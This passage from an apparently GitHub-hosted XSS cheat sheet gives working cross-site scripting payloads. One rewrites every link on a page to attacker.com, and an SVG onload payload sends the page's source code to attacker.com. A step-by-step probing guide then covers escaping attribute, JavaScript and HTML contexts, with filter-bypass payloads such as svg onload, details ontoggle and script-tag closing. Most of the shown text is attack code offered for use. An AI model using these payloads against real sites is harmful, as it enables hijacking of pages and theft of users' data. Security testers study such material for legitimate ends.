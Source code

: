 
### Awesome Exploits
##### Replace all links
```javascript
Array.from(document.getElementsByTagName("a")).forEach(function(i) {
  i.href = "https://attacker.com";
});
```
##### Source Code Stealer
```html
<svg/onload="(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML">
```
A good compilation of advanced XSS exploits can be found [here](http://www.xss-payloads.com/payloads-list.html?a#category=all)

### Awesome Probing
If nothing of this works, take a look at **Awesome Bypassing** section

First of all, enter a non-malicious string like **d3v** and look at the source code to get an idea about number and contexts of reflections.
<br>Now for attribute context, check if double quotes (") are being filtered by entering `x"d3v`. If it gets altered to `x&quot;d3v`, chances are that output is getting properly escaped. If this happens, try doing the same for single quotes (') by entering `x'd3v`, if it gets altered to `x&apos;`, you are doomed. The only thing you can try is encoding.<br>
If the quotes are not being filtered, you can simply try payloads from **Awesome Context Breaking** section.
<br>For javascript context, check which quotes are being used for example if they are doing
```
variable = 'value' or variable = "value"
```
Now lets say single quotes (') are in use, in that case enter `x'd3v`. If it gets altered to `x\\'d3v`, try escaping the backslash (\) by adding a backslash to your probe i.e. `x\\'d3v`. If it works use the following payload:
```
\'-alert()//
```
But if it gets altered to `x\\\\'d3v`, the only thing you can try is closing the script tag itself by using
```
</script><svg onload=alert()>
```
For simple HTML context, the probe is `x<d3v`. If it gets altered to `x&gt;d3v`, proper sanitization is in place. If it gets reflected as it as, you can enter a dummy tag to check for potential filters. The dummy tag I like to use is `x<xxx>`. If it gets stripped or altered in any way, it means the filter is looking for a pair of `<` and `>`. It can simply bypassed using
```
<svg onload=alert()//
```
or this (it will not work in all cases)
```
<svg onload=alert()
```
If the your dummy tags lands in the source code as it is, go for any of these payloads
```
<svg onload=alert()>
<embed src=//14.rs>
<details open ontoggle=alert()>
```
